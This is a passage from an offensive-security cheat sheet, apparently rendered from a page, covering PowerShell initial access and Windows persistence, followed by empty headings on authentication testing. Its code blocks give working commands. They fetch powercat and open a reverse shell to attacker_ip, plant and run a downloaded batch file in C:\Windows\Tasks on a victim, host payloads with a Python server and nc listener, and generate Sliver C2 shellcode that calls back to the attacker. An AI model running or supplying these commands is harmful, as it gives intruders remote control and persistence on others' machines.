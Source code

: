# 24	POWERSHELL INITIAL ACCESS
## 24.1	- 
- Run on attacker machine
```
pwsh -c "iex(New-ObjectSystem.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c attacker_ip -p 443 -e cmd.exe -ge" > /tmp/s.txt

echo START /B powershell -c "\$code=(New-Object System.Net.Webclient).DownloadString('http://attacker_ip/s.txt');iex 'powershell -E \$code '" > /tmp/backup.bat
```
- Create webserver and listener
```
python3 -m http.server 80 --directory /tmp

nc -nvlp 443
```
- Run on victim machine
```
START /B powershell.exe -c (New-Object System.Net.Webclient).DownloadFile('http://attacker_ip/backup.bat','C:\Windows\Tasks\backup.bat'); IEX 'c:\Windows\Tasks\backup.bat'
```

# 25	WINDOWS PERSISTENCE
## 25.1	- 
- Generate Sliver agent shellcode and host
```
sliver > generate --mtls attacker_ip --save /tmp -f shellcode --os windows

python3 -m http.server 80 --directory /tmp
```
- run `retrvSHellcodeExecMemory.nim`


# 26	ATTACK PATH

## 26.1	AUTHENTICATION

### 26.1.1	PASSWORD STRENGTH (ASVS)

### 26.1.2	MFA CAPABILITY

### 26.1.3	HARD-CODED SECRETS

### 26.1.4	USER ENUMERATION

#### 26.1.4.1	TIMING
